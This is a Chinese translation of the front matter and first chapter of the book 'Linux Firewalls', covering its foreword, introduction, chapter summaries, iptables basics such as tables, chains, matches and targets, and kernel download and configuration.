# Linux 防火墙：iptables、psad 和 fwsnort 攻击检测与响应 [图解]

> 《Linux Firewalls》是一本极佳作。

——摘自 TaoSecurity.com 的 Richard Bejtlich 所写的前言

## 致谢

《Linux Firewalls》的完成得到了许多人在每一步提供的帮助。我特别想感谢 No Starch Press 的工作人员所付出的努力。William Pollock、Bonnie Granat、Megan Dunchak 和 Christina Samuel 都投入了大量时间进行专业的编辑，使本书的质量得到了提升。感谢 Pablo Neira Ayuso 帮助将 Netfilter 和 iptables 打造成为今天的样子，并承担了本书材料的技术编辑工作。Tenable Network Security 的 CTO Ron Gula 和 Splunk 的首席安全战略师 Raffael Marty 都提出了建设性的批评，并非常慷慨地在本书出版前为其背书。我还想感谢 TaoSecurity 的创始人 Richard Bejtlich 撰写了精彩的前言。Richard，你的著作给了我很多启发。我的父母 James 和 Billie Mae，以及我的兄弟 Brian，都因为他们不断的鼓励而值得特别感谢。最后，非常感谢我的妻子 Katie。没有你，这本书就不可能完成。

## 前言

代理防火墙的发明者、首款商业防火墙产品的实现者 Marcus Ranum 在 20 世纪 90 年代中期对 *防火墙* (firewall) 一词给出了定义，他说：“防火墙是你的 Internet 安全策略的实现。” [1] 这是一个极佳的定义，因为它与产品无关，且具有 timeless（永恒性）和现实性。它不仅适用于 William R. Cheswick 和 Steven M. Bellovin 撰写的第一本防火墙著作《防火墙与 Internet 安全》(Firewalls and Internet Security, 1994)（Addison-Wesley Professional, 1994），同样适用于你现在阅读的这本书。

秉承 Ranum 定义的精神，防火墙也可以被视为一种策略执行系统。检查然后通过或过滤网络流量的设备可以被称为 *网络策略执行系统*。检查然后通过或过滤以主机为中心的活动的设备可以被称为 *主机策略执行系统*。在任何一种情况下，强调策略执行都将注意力集中在防火墙的正确角色上——即作为一个实现策略的设备，而不是一个仅仅“拦截坏东西”的设备。

关于“坏东西”，一个合理的问题是：在今天的企业中，防火墙是否仍然重要？配置正确的传统网络防火墙产品基本上会拒绝除允许的 Internet 协议、IP 地址、TCP/UDP 端口以及 ICMP 类型和代码之外的所有流量。在现代攻击环境下，这种防御方式完全不足。限制这些漏洞利用通道对于限制目标主机的进入和退出路径是必要的，但网络层和传输层的过滤在至少十年里一直是完全不足的应对措施。

在 2007 年，入侵客户端最有效的方法是诱导用户激活恶意可执行文件，向用户发送包含恶意内容的链接，或者攻击用户计算体验中的其他客户端组件。在许多情况下，利用并不依赖于可以修补的漏洞或可以收紧的配置。相反，攻击者利用的是 JavaScript 和 Flash 等富媒体平台的弱点，而这些平台在如今的网页浏览中变得越来越不可或缺。

在 2007 年，入侵服务器最有效的方法是绕过操作系统而直接攻击应用程序。Web 应用程序在服务器领域占据主导地位，它们更容易受到架构和设计缺陷的影响，而不是可以通过补丁修复的漏洞。在 20 世纪 90 年代后期，通过修改购物篮中的商品价格来演示 Web 应用程序的不安全性曾是一种流行做法。由于 Ajax 的出现，近十年后，购物篮在客户端运行，用户再次能够修改价格——甚至做更糟糕的事。

这一切使得防火墙产品的前景看起来相当暗淡。许多产品通过引入深度包检测（Deep Packet Inspection）或在 OSI 参考模型的应用层及之上运行来进行适应。其他产品则作为 *入侵防御系统* (IPS) 运行，使用一个巧妙的营销术语以便在看似商品化的市场中脱颖而出。在客户端攻击和 Web 应用程序漏洞利用的时代，防火墙（尤其是开源产品）是否还有其角色？

答案是肯定的——而你现在正在阅读其中一种方法。Michael Rash 是创造性地将网络技术用于防御目的的先驱。安全研究和开发领域往往由进攻性工具和技术主导，只要快速浏览一下拉斯维加斯某个黑客大会的演讲者名单就能证明这一点。Michael 逆势而上，继续发明并改进保护资产免受攻击的方法。在进攻性会议上见识了“黑暗面”之后，我们几乎所有人都会回到保护企业的看似平凡的工作中。感谢这本书，我们拥有了一套额外的程序和方法来让我们的工作变得更轻松。

在阅读本书草稿时，我发现了几个主题。首先，随着设备变得自立并暴露在 Internet 中，以主机为中心的防御变得越来越重要。这种演进的一个极端例子是 IPv6 的引入，如果按照其设计者的意图部署，它将恢复原始 Internet 的“端到端”特性。当然，*端到端* 可以被翻译为 *攻击者到受害者*，因此，主机保护自己的额外方式将大受欢迎。《Linux 防火墙》将教你如何使用基于主机的防火墙和工具来保护主机。

其次，尽管主机必须越来越多地自我防御，但仅靠以主机为中心的措施是不够的。一旦主机被攻破，它就无法再负责自己的防御。入侵者在突破系统后，通常会禁用主机防火墙、杀毒软件和其他保护代理。因此，只要有可能，仍然需要网络中心化的过滤设备。由 *受害者* 控制的端点只能使用网络防火墙允许的通信通道，这至少限制了入侵者所享有的行动自由。《Linux 防火墙》还将教你网络设备如何保护主机。

第三，我们必须寻找创造性的方法来防御资产并了解攻击态势。如果想要限制对敏感服务的访问，单包授权 (Single Packet Authorization) 是比端口敲门 (port knocking) 巨大的飞跃。可视化有助于以一种能够让分析师检测到细微关注事件的方式来呈现日志和流量。在阅读完本书后，你可能会发现更多其他人员（包括作者）未曾预料到的利用防御基础设施的方法。

我想以一名书评人和作者的身份，我想对这些思考做一个总结。从 2000 年到 2007 年中期，我阅读并评述了近 250 本技术书籍。我也写过几本书，因此我相信当我看到一本优秀的书时，能够识别出来。《Linux Firewalls》就是这样一本好书。我是一名 FreeBSD 用户，但《Linux Firewalls》足够优秀，以至于让我考虑在某些情况下使用 Linux！Mike 的书极其清晰、组织严密、简洁且具有可操作性。你应该能够阅读它，并通过跟随他的示例来实现你所发现的一切。你不仅将熟悉相关工具并学会使用相关技术，还能领会作者敏锐的防御见解。

世界上大多数数字安全专业人士专注于防御，将进攻留给坏人、警察和军队。我非常欢迎像《Linux Firewalls》这样将真实的防御工具和技术以一种能够被大众消化，并能以最低成本和精力部署的形式呈现的书籍。祝你好运——我们都需要它。

**Richard Bejtlich**

**通用电气 (General Electric) 事件响应总监**

**弗吉尼亚州马纳萨斯公园 (Manassas Park, VA)**

> †¹*Computer Security Journal*, 第 XI 卷, 第 1 期, 1995 年春

([http://www.spirit.com/csi/papers/hownot.htm](http://www.spirit.com/csi/papers/hownot.htm))

## 引言

进攻方似乎正在占据上风。几乎没有一天没有关于软件漏洞的新漏洞利用、更高效的垃圾邮件分发方法（我的收件箱可以证明这一点），或者企业或政府机构敏感个人数据被大规模盗窃的新闻。实现安全的计算是一个永恒的挑战。旨在挫败狡猾的“黑帽”黑客的技术并不缺乏，然而他们仍然能够成功地攻破系统和网络。

对于每一类安全问题，几乎肯定存在一种旨在对抗它的开源或商业解决方案。在网络入侵检测系统和网络访问控制设备（如防火墙、过滤路由器等）领域尤其如此。防火墙技术的一个趋势是将来自入侵检测领域的应用层检查技术与过滤网络流量的能力相结合，而过滤流量是防火墙长期以来一直从事的工作。本书的目标就是展示 Linux 系统上的 iptables 防火墙在利用这一趋势方面具有良好优势，尤其是当它与一些旨在从入侵检测角度利用 iptables 的附加软件相结合时。

我希望这本书在现有的出版物中是独一无二的。市面上已经有几本讨论 Linux 防火墙各个方面的优秀书籍，但据我所知，还没有哪本书专门关注那些可以通过 iptables 及其提供的数据来检测（并在某些情况下挫败）的攻击。关于入侵检测的主题也有很多书籍，但没有一本专注于使用防火墙技术来真正补充入侵检测过程。本书探讨的就是这两种技术的融合。

我将重点介绍三个开源软件项目，这些项目旨在最大化 iptables 在攻击检测和预防方面的效能。这些项目分别是：

- **psad**: 一个 iptables 日志分析器和主动响应工具
- **fwsnort**: 一个将 Snort 规则转换为等效 iptables 规则的脚本
- **fwknop**: 一个为 iptables 实现的单包授权 (SPA) 方案

所有这些项目都根据 GNU 通用公共许可证 (GPL) 作为开源软件发布，可以从 http://www.cipherdyne.org 下载。

### 为什么使用 iptables 检测攻击？

**rosencrantz:** *我的意思是，你到底在做什么？*

**player:** *我们基本上还是做我们通常做的事，只不过是里外反转了。我们在舞台上做那些本该在幕后发生的事情。如果你把每一个出口都看作是另一个地方的入口，这其实是一种完整性。*

> ——汤姆·斯托帕德，《罗森克兰茨与吉尔登斯特恩已死》

如果你运行 Linux 操作系统，你可能已经接触过 iptables 防火墙。这是有道理的，因为 iptables 提供了一种有效的手段来控制谁可以通过网络连接与你的 Linux 系统通信以及他们如何通信。在互联网这个巨大的不受控的网络中，攻击可能来自全球任何角落——即使攻击者在物理上可能位于相邻的州（或隔壁房间）。如果你运行一台联网的 Linux 机器，你的系统在每一天、每一秒都面临被攻击并可能被攻破的风险。

部署严格的 iptables 过滤策略是维持强大安全态势的一个良好第一步。即使你的 Linux 系统连接到一个由另一个防火墙或其他过滤设备在前端保护的网络，这种上游设备仍有可能无法提供足够的保护。此类设备可能配置不当，可能存在 bug 或其他故障，或者可能不具备保护你的 Linux 系统免受某些类别攻击的能力。在可能的情况下实现相当程度的冗余至关重要，而在每台 Linux 系统（包括服务器和桌面）上运行 iptables 所带来的安全收益可能超过额外的管理开销。换句话说，系统被攻破的风险以及可能丢失的数据价值，很可能超过在整个 Linux 基础设施中部署和维护 iptables 的成本。

本书的主要目标是向你展示如何从检测和响应网络攻击的角度最大化利用 iptables。一个限制谁可以与 Linux 系统上的哪些服务通信的限制性 iptables 策略是一个良好的第一步，但你很快会发现，你可以将此举进一步深化。

### 那专门的网络入侵检测系统（NIDS）如何？

检测入侵的工作通常交给专门为此目的设计且对本地网络具有全局视野的特殊系统。本书并不主张改变这一策略。在负责保护网络的安全基础设施中，拥有一个专门的网络入侵检测系统 (IDS) 是不可替代的。此外，IDS 能够收集的原始数据包数据是极其宝贵的数据源。每当安全分析师被要求查明在一次攻击或系统攻破期间发生了什么时，拥有原始数据包对于拼凑事实至关重要，而来自 IDS 的事件可以指明方向。如果没有 IDS 来提醒可疑活动，分析师可能永远不会怀疑系统正受到攻击。

本书*主张*的是使用 iptables 来补充现有的入侵检测基础设施。iptables 的主要焦点是对网络流量应用策略限制，而不是检测网络攻击。然而，iptables 提供了强大的功能，使其能够模拟传统上属于入侵检测系统职能的一大部分能力。例如，iptables 的日志格式提供了网络层和传输层报头（包括 IP 和 TCP 选项）中几乎每个字段的详细数据，且 iptables 的匹配能力可以对应用层数据进行字节序列匹配。这些能力对于提供检测尝试入侵的能力至关重要。

入侵检测系统通常是被动设备，并未配置为自动对看似恶意网络流量采取任何惩罚性措施。总的来说，这是有原因的，*因为*存在将良性流量误识别为恶意行为的风险（称为*误报*）。然而，一些 IDS 可以部署在网络流量的内联 (inline) 路径上，在这种部署方式下，此类系统通常被称为*网络入侵防御系统* (IPS)。$^{12}$ 因为 iptables 是一个防火墙，它*始终*处于网络流量的内联路径上，这使得许多攻击在造成重大损害之前就被过滤掉。许多组织由于基础连接性和性能担忧，一直犹豫是否在网络基础设施中部署内联 IPS。然而，在某些情况下，根据应用层检查标准过滤流量的能力是非常有用的，而在 Linux 系统上，iptables 可以通过将 IDS 签名重新构建为 iptables 策略来提供基础的 IPS 功能，从而挫败网络攻击。

## 纵深防御

*纵深防御* (Defense in depth) 是一项借用自军事领域的原则，常被应用于计算机安全领域。它规定，在一个任意系统中（无论是计算机网络还是物理军事设施），必须*预料*到在各个层级都会发生攻击。没有任何手段能确保攻击永远不会发生。此外，某些攻击可能会成功并破坏或摧毁系统的某些组件。因此，在系统内部的各个层级采用多层防御机制至关重要；当一次攻击攻破一个安全设备时，另一个设备可能会成功地限制进一步的损失。

在网络安全领域，Snort 是开源入侵检测世界的冠军，许多商业厂商也生产了优秀的防火墙和其他过滤设备。然而，如果你在基础设施中运行 Linux，真正的问题在于，*仅*依赖这些安全机制来保护你的关键资产是否审慎。纵深防御原则表明，iptables 可以作为现有安全基础设施的一个重要补充。

尽管名称听起来很高大上，且供应商的营销炒作没完没了，但如果缺乏*检测*攻击的方法，网络入侵防御系统将毫无意义——而这些检测机制正是源自 IDS 领域。网络 IPS 通常只是增加了一些额外的机制来处理内联流量并在该环境下响应攻击。

## 前置条件

本书假设读者熟悉 TCP/IP 网络概念和 Linux 系统管理。如果具备开放系统互连（OSI）参考模型和主要的网络层与传输层协议（IPv4、ICMP、TCP 和 UDP）的知识，以及一些关于 DNS 和 HTTP 应用协议的知识，将会非常有帮助。虽然书中经常引用 OSI 参考模型的各个层级，但讨论的大部分内容集中在网络层、传输层和应用层（分别为第 3、4 和 7 层）。会话层和表示层不予涵盖，物理层和数据链路层仅略有提及（关于第 2 层过滤的详细信息可以在 http://ethtables.sourceforge.net）。对网络层、传输层和应用层的覆盖重点在于每层可能发生的攻击——很大程度上假设读者已经了解这些层级的结构和功能。尽管没有专门讨论无线协议和 IPv6，但书中的许多示例同样适用于这些协议。

具备基础编程概念（尤其是 Perl 和 C 语言）的实用知识也会很有用，但代码示例通常会经过拆解和详细解释。书中的某些部分展示了通过 `tcpdump` 以太网嗅探器显示的原始数据包数据，因此，具有 `tcpdump` 或 Wireshark 等以太网嗅探器的使用经验会很有帮助。除了上述内容外，本书不假设读者具有计算机安全、网络入侵检测或防火墙概念的先验知识。

最后，本书专注于网络攻击——检测攻击并对其做出响应。因此，本书通常不讨论主机级别的安全问题，例如通过删除编译器、严格限制用户帐户、应用最新的安全补丁等来加固运行 `iptables` 的系统。不过，Bastille Linux 项目（见 http://www.bastille-linux.org）提供了关于主机安全问题的绝佳信息。对于真正的硬核用户，NSA SELinux 发行版（见 http://www.nsa.gov/selinux）是一项惊人的尝试，它从最关键的组件——内核本身开始提升系统安全性。

## 技术参考

以下书籍是本书技术层面极佳的辅助参考资料：

- Building Internet Firewalls, 2nd Edition; Elizabeth D. Zwicky, Simon Cooper, and D. Brent Chapman (O'Reilly, 2000)
- Computer Networks, 4th Edition; Andrew S. Tannenbaum (Prentice Hall PTR, 2002)
- Firewalls and Internet Security: Repelling the Wily Hacker, 2nd Edition; William R. Cheswick, Steven M. Bellovin, and Aviel D. Rubin (Addison-Wesley Professional, 2003)
- Linux System Security, 2nd Edition; Scott Mann and Ellen L. Mitchell (Pearson Education, 2002)
- Programming Perl, 3rd Edition; Larry Wall, Tom Christiansen, and Jon Orwant (O'Reilly, 2000)
- The Tao of Network Security Monitoring: Beyond Intrusion Detection; Richard Bejtlich (Addison-Wesley Professional, 2004)
- The TCP/IP Guide; Charles M. Kozierok (No Starch Press, 2005)
- TCP/IP Illustrated, Volume 1: The Protocols; W. Richard Stevens (Addison-Wesley, 1994)

## 关于网站


本书包含多个示例脚本、`iptables` 策略和命令，以及网络攻击实例和相关的数据包捕获。所有这些材料也可以从本书的配套网站下载，网址为 http://www.cipherdyne.org/linuxfirewalls。拥有电子副本是亲自钻研和实验相关概念及代码的最佳方式。网站上还提供了 `psad`、`fwsnort` 和 `fwknop` 项目的实际运行示例，以及文档和 Trac 界面（http://trac.edgewall.com），通过该界面你可以查看每个项目的源代码。每个项目的源代码都仔细地存档在 Subversion 仓库（http://subversion.tigris.org）中，以便直观地观察代码从一个版本到下一个版本的演变。最后，网站上还可以找到一些关于 `iptables` 日志数据的有趣图形化表示。

如果在阅读本书的过程中有任何疑问，你也可以在本书的网站上寻找答案。关于书中涵盖的任何材料，请随时向我提问。你可以通过电子邮件 `mbr@cipherdyne.org` 与我联系。

## 章节摘要

在你阅读 *Linux Firewalls* 的过程中，将涵盖大量内容。本节为你简要概述每一章，以便你了解预期内容。

### 第一章

本章介绍使用 `iptables` 进行数据包过滤，包括内核构建细节和 `iptables` 管理。本章提供了一个默认策略和网络图，并在全书范围内被引用。运行默认策略的 Linux 机器充当本地局域网（LAN）的防火墙，后续章节将演示针对该系统的攻击。

### 第二章

本章展示了网络层中存在的攻击类型以及你可以采取的应对措施。我将为你介绍 `iptables` 的日志格式，并强调你可以从 `iptables` 日志中提取的网络层信息。

### 第三章

传输层是利用端口扫描（port scans）和横扫（sweeps）进行服务器侦察的领域，本章将探讨这些方法的内部工作原理。`iptables` 的日志格式非常适合表示传输层报头信息，这对于检测各种恶意行为非常有用。

### 第四章

如今大多数攻击都利用了运行在 TCP/IP 套件之上的应用程序日益增加的复杂性。本章将阐述 `iptables` 可以检测的应用层攻击类别，并为你介绍 `iptables` 的字符串匹配（string match）扩展。

### 第五章

本章讨论 `psad` 的安装与配置，并向你展示为什么倾听 `iptables` 日志所讲述的故事至关重要。

### 第六章

`psad` 提供了许多功能，这些功能旨在最大化利用 `iptables` 日志消息。从端口扫描到后门探测，`psad` 通过详尽的电子邮件和 syslog 警报来检测并报告可疑活动。

### 第七章

本章向你介绍 `psad` 的高级功能，包括集成被动 OS 指纹识别、通过数据包报头的 Snort 签名检测、详细的状态信息以及 DShield 报告。本章旨在展示 `iptables` 日志信息在提供安全数据方面能走多远。

### 第八章

任何关于入侵检测的论述如果没有讨论自动响应攻击的选项是不完整的。`psad` 提供的响应能力构建在一个简洁的接口之上，使其易于与第三方软件集成，书中包含了一个与 Swatch 项目集成的示例。

### 第九章

Snort IDS 为社区展示了检测基于网络的攻击的方法，因此在 `iptables` 中利用 Snort 签名语言是合乎逻辑的。由于 `iptables` 提供了丰富的日志格式和检查应用层数据的能力，很大一部分 Snort 签名可以被转换为 `iptables` 规则。

### 第十章

将 Snort 签名转换为 `iptables` 规则的繁琐任务已由 `fwsnort` 项目自动化，本章将向你展示其实现方式。部署 `fwsnort` 将使你的 `iptables` 策略具备真正的入侵检测能力。

### 第十一章

由 `fwsnort` 生成的日志消息被 `psad` 接收并分析，以便通过电子邮件进行更好的报告（书中演示了集成的 whois 和反向 DNS 查询以及被动 OS 指纹识别）。本章代表了使用 `iptables` 可能实现的攻击检测和缓解策略的顶峰。

### 第十二章

被动授权对于保持网络服务安全变得越来越重要。使用此类技术可以严重限制零日漏洞的破坏范围，但并非所有的被动授权范式都足够健壮，能够用于关键部署。本章比较并对比了两种被动授权机制：端口敲门（port knocking）和单包授权（Single Packet Authorization, SPA）。

### 第十三章

目前只有少数 SPA 实现可用，其中 `fwknop` 就是其中之一，是最活跃地开发和支持的。本章将向您展示如何安装并使用 `fwknop` 与 `iptables` 配合，从而对所有未经身份验证和未经授权的 SSH 守护进程连接尝试保持默认丢弃（drop）的默认姿态。

### 第十四章

本书的最后一章将通过一些 `iptables` pcap 日志数据的图形化表示来收尾。图片可以快速地阐明网络通信中的趋势，这些趋势可能预示着系统已被攻破；通过将 `psad` 与 AfterGlow 项目结合，您可以直观地看到其含义。

### 附录 A

解析 Snort 签名规则集、构建匹配的数据包数据，并使用伪造的源地址将其发送到线路上是非常简单的。附录 A 讨论了一个示例 Perl 脚本（随 `fwsnort` 捆绑提供），它正是执行此操作的。

### 附录 B

`fwsnort` 项目创建了一个 shell 脚本，该脚本可自动执行创建 `iptables` 策略所需的 `iptables` 命令，从而使其能够检测应用层攻击。附录 B 包含了一个由 `fwsnort` 生成的 `fwsnort.sh` 脚本的完整示例。

本书采取了一种高度应用的方法。通过实际案例可以更好地理解概念，而深入研究源代码或仔细检查数据包跟踪记录始终是理解计算机运行机制的绝佳方式。我希望在阅读完本书后，您将掌握关于如何通过 `iptables` 检测和处理网络攻击的强大实践知识。再次强烈建议您提出问题，您可以通过 `mbr@cipherdyne.org` 与我联系。

# 第 1 章：`iptables` 的维护与使用

在本章中，我们将探讨在 Linux 系统上正确安装、维护以及与 `iptables` 防火墙交互的基本方面。我们将从内核和用户空间的两个角度涵盖 `iptables` 的管理，以及如何构建和维护 `iptables` 防火墙策略。我们将构建一个默认策略，作为本书后续几章的指南；本章还附带了一个实现该策略的脚本和一张网络图供参考。本书中许多示例攻击将从该网络图中显示的主机发起。最后，我们将涵盖对默认 `iptables` 策略的测试，以确保其运行符合设计预期。

## `iptables`

`iptables` 防火墙由 Netfilter 项目（http://www.netfilter.org）开发，自 2001 年 1 月 Linux 2.4 内核发布以来，就作为 Linux 的一部分面向大众提供。

多年来，`iptables` 已成熟地发展成为一个强大的防火墙，拥有大多数专有商业防火墙中常见的功能。例如，`iptables` 提供了全面的协议状态跟踪、数据包应用层检查、速率限制以及一套指定过滤策略的强大机制。所有主要的 Linux 发行版都包含了 `iptables`，许多发行版甚至在安装程序中就提示用户部署 `iptables` 策略。

`iptables` 和 Netfilter 这两个术语之间的区别曾是 Linux 社区中某些困惑的来源。Linux 提供的所有数据包过滤和修改设施的官方项目名称是 Netfilter，但这个术语也指代 Linux 内核中的一个框架，该框架可用于在网络栈的各个阶段挂接（hook）函数。另一方面，`iptables` 利用 Netfilter 框架将旨在对数据包执行操作（如过滤）的函数挂接到网络栈中。您可以将 Netfilter 视为提供框架，而 `iptables` 在此框架之上构建防火墙功能。

`iptables` 一词还指代解析命令行并将防火墙策略传递给内核的用户空间工具。在这种语境下，诸如表（tables）、链（chains）、匹配（matches）和目标（targets）（将在本章稍后定义）等术语才具有意义。

Netfilter 本身并不过滤流量——它只是允许能够过滤流量的函数被挂接到内核中的正确位置。（我不会在此赘述；本书的大部分内容都围绕 `iptables` 展开，以及它如何对符合特定标准的数据包采取行动。）Netfilter 项目还在内核中提供了几项基础设施，例如连接跟踪和日志记录；任何 `iptables` 策略都可以使用这些设施来执行专门的数据包处理。

## 注意

在本书中，我将把 Netfilter 日志子系统生成的日志消息称为 `iptables` 日志消息；毕竟，数据包只有在匹配到最初由 `iptables` 构建的 `LOG` 规则时才会被记录。为了不引起混淆，除非有令人信服的理由使用 Netfilter（例如讨论内核编译选项或连接跟踪能力时），否则我将默认使用 `iptables` 一词。无论如何，大多数人将 Linux 防火墙与 `iptables` 联系在一起。

## 使用 `iptables` 进行数据包过滤

`iptables` 防火墙允许用户对与 Linux 系统交互的 IP 数据包实施高度控制；这种控制在 Linux 内核中实现。可以使用 `iptables` 构建一个类似于严厉交通警察的策略——不被允许通过的数据包将陷入遗忘并从此消失，而通过的数据包则必须被发送到目的地，或者被修改以符合本地网络要求。

`iptables` 策略由一组有序的规则（rules）构建，这些规则向内核描述应对某些类别的数据包采取的操作。每条 `iptables` 规则被应用于表中的一个链。`iptables` 链（chain）是一组规则的集合，这些规则按顺序与具有共同特征（例如路由到 Linux 系统而非离开它）的数据包进行比较。

### 表（Tables）

表（table）是 `iptables` 的一种结构，用于划分宽泛的功能类别，例如数据包过滤或网络地址转换（NAT）。共有四个表：`filter`、`nat`、`mangle` 和 `raw`。过滤规则应用于 `filter` 表，NAT 规则应用于 `nat` 表，修改数据包数据的专门规则应用于 `mangle` 表，而应独立于 Netfilter 连接跟踪子系统运行的规则则应用于 `raw` 表。

### 链（Chains）

每个表都有自己的一组内置链，但也可以创建用户定义链，以便用户构建一组由共同标签（如 `INPUT_ESTABLISHED` 或 `DMZ_NETWORK`）相关的规则。对于我们的目的而言，最关键的内置链是 `filter` 表中的 `INPUT`、`OUTPUT` 和 `FORWARD` 链：

- `INPUT` 链由在内核中完成路由计算后，目的地为本地 Linux 系统的数据包遍历（即目的地为本地套接字的数据包）。
- `OUTPUT` 链专用于由 Linux 系统自身生成的数据包。
- `FORWARD` 链管理通过 Linux 系统路由的数据包（即当 `iptables` 防火墙用于连接两个网络，且这两个网络之间的数据包必须流经防火墙时）。

对于任何严肃的 `iptables` 部署而言，另外两个重要的链是 `nat` 表中的 `PREROUTING` 和 `POSTROUTING` 链，它们用于在内核进行 IP 路由计算之前和之后修改数据包头。本章稍后将通过示例 `iptables` 命令阐述 `PREROUTING` 和 `POSTROUTING` 链的用法，与此同时，图 1-1 展示了数据包如何在内核中的 `nat` 和 `filter` 表之间流动。



图 1-1. `iptables` 数据包流向

### 匹配（Matches）

每条 `iptables` 规则都有一组匹配条件以及一个目标（target），目标告诉 `iptables` 对符合规则的数据包执行什么操作。`iptables` 匹配是一个条件，数据包必须满足该条件，`iptables` 才会根据规则目标指定的动作来处理该数据包。例如，若要将规则仅应用于 TCP 数据包，可以使用 `--protocol` 匹配。

每个匹配项都在 `iptables` 命令行上指定。本书中最重要的 `iptables` 匹配项列在下方。（在第 20 页的“默认 `iptables` 策略”中讨论本书全程使用的默认 `iptables` 策略时，您将看到关于匹配的更多内容。）

- `--source`（`-s`）匹配源 IP 地址或网络
- `--destination`（`-d`）匹配目的 IP 地址或网络
- `--protocol`（`-p`）匹配 IP 协议值
- `--in-interface`（`-i`）输入接口（例如 `eth0`）
- `--out-interface`（`-o`）输出接口
- `--state` 匹配一组连接状态
- `--string` 匹配一段应用层数据字节序列
- `--comment` 在内核内存中将最多 256 字节的注释数据与规则关联

## 目标（Targets）

最后，`iptables` 支持一组目标（targets），当数据包匹配某条规则时会触发相应的操作。[1] 本书中使用到最重要的目标如下：

| 目标 | 描述 |
| --- | --- |
| `ACCEPT` | 允许数据包继续传输。 |
| `DROP` | 丢弃数据包。不再进行进一步处理，且就接收端协议栈而言，就如同该数据包从未被发送一样。 |
| `LOG` | 将数据包记录到 syslog 中。 |
| `REJECT` | 丢弃数据包，并同时发送一个适当的响应数据包（例如，针对 TCP 连接发送 TCP Reset 数据包，或针对 UDP 数据包发送 ICMP 端口不可达消息）。 |
| `RETURN` | 在调用链中继续处理该数据包。 |

我们将在第 20 页的“默认 `iptables` 策略”中构建大量使用了上述几种匹配条件和目标的 `iptables` 规则。

> [1] 注意，这里 *matching*（匹配）是指数据包符合 `iptables` 规则中所包含的所有匹配标准。

## 安装 `iptables`

由于 `iptables` 被分为两个基本组件（内核模块和用户态管理程序），安装 `iptables` 涉及编译和安装 Linux 内核以及用户态二进制文件。内核源代码包含许多 Netfilter 子系统，在官方 Linux 内核存档网站 http://www.kernel.org 发布的纯净权威内核中，基本的包过滤功能默认是开启的。

在早期的某些 2.6 内核（以及所有的 2.4 内核）中，Netfilter 编译选项默认未开启。然而，由于 Netfilter 项目提供的软件经过多年发展已达到了很高的质量水平，内核维护者认为它已经成熟到在 Linux 上使用 `iptables` 不应再要求用户重新编译内核。近期的内核允许你默认通过 `iptables` 策略来过滤数据包。

虽然许多 Linux 发行版自带的预编译内核已经包含了 `iptables`，从 http://www.kernel.org 下载的内核默认配置倾向于尽可能保持精简，因此并非所有 Netfilter 子系统都已启用。例如，在 2.6.20.1 内核（截至本书写作时最新的内核版本）中，Netfilter 连接跟踪功能默认未启用。因此，理解重新编译内核的过程非常重要，以便 `iptables` 策略能够利用额外的功能。

## 注意

为了节省空间并保持对重点的关注，本章中部分编译输出和安装命令进行了简写。

构建一个能作为 `iptables` 防火墙运行的 Linux 系统，最关键的一步是正确配置和编译 Linux 内核。`iptables` 中所有繁重的网络处理和比较函数都在内核中执行，我们将从编译 2.6 稳定系列的最新版本内核开始。虽然详细讨论内核编译过程中的各种变数超出了本书的范围，但我们将讨论足够的内容，以便你编译并启用包过滤、连接跟踪和日志记录等关键功能。至于与其他 Netfilter 子系统无关的其他内核编译选项（如处理器架构、网络接口驱动程序和文件系统支持），我假设你已经选择了正确的选项，使得生成的内核能在部署的硬件上正常运行。

## 注意

有关编译 2.6 系列内核的更多信息，请参阅 Kwan Lowe 编写的 Kernel Rebuild Guide（http://www.digitalhermit.com/~kwan/kernel.html）。对于较旧的 2.4 内核，请参阅 Brian Ward 编写的 Kernel-HOWTO（http://www.tldp.org/howto/kernel-howto.html），或参考任何优秀的 Linux 系统管理书籍。Brian Ward 的 *How Linux Works*（No Starch Press, 2004）也涵盖了内核编译内容。

在安装 Linux 内核之前，你需要下载并解压它。以下命令针对 2.6.20.1 内核执行。（在这些命令中，我假设 `/usr/src` 目录对当前用户是可写的。）

## 注意

除非另有说明，本章是从 2.6 系列内核的角度编写的，因为它代表了 Linux 内核开发者的最新且最卓越的成果。不过，通常情况下，相同的策略也适用于 2.4 系列内核。

```bash
$ cd /usr/src
$ wget http://www.kernel.org/pub/linux/kernel/v2.6/linux-2.6.20.1.tar.bz2
$ tar xjf linux-2.6.20.1.tar.bz2
$ ls -ld linux-2.6.20.1
drwxr-xr-x 18 mbr users 600 Jun 16 20:48 linux-2.6.20.1
```

虽然我在上述命令中选择了特定的内核版本，但类似的命令同样适用于更新的内核版本。例如，当 2.6.20.2 内核发布时，你只需将上述命令中的 2.6.20.1 替换为 `2.6.20.2` 即可。

## 注意


需要记住的一点是，`kernel.org` Web 服务器的负载多年来一直在稳步增加，随机查看 `http://www.kernel.org` 的带宽利用率图表显示，当前的利用率远超 300 Mbps。为了帮助减轻负载，可以从 `http://www.kernel.org/mirrors` 列出的镜像站点之一下载内核。一旦你的系统中有了特定版本的内核源码，你可以下载并应用内核补丁文件来升级到下一个版本。（补丁文件比内核本身小得多。）

## 内核配置

在开始编译之前，你必须构建一个内核配置文件。幸运的是，构建此文件的过程已由内核开发者自动化，可以通过单个命令启动（在 `/usr/src/linux-2.6.20.1` 目录下）：

```
$ make menuconfig
```

`make menuconfig` 命令启动 Ncurses 界面，你可以在其中选择各种编译选项。（你可以分别使用 `make xconfig` 和 `make config` 命令调用 X Windows 或终端界面。）我选择 Ncurses 界面，因为它在简陋的终端界面和相对昂贵的 X Windows 界面之间取得了很好的平衡。此外，Ncurses 界面非常适合通过 SSH 会话配置远程 Linux 内核，而无需转发 X Windows 连接。

执行 `make menuconfig` 后，我们会看到几个配置部分，范围从代码成熟度级别（Code Maturity Level）选项到库例程（Library Routines）。2.6 系列内核的大多数 Netfilter 编译选项位于 Networking ▸ Networking Options 下名为 Network Packet Filtering Framework (Netfilter) 的部分中。

## 核心 Netfilter 编译选项

在内核配置文件中需要启用的较为重要的选项包括 Netfilter 连接跟踪、日志记录和包过滤。（回想一下，iptables 通过使用 Netfilter 提供的内核框架来构建策略。）

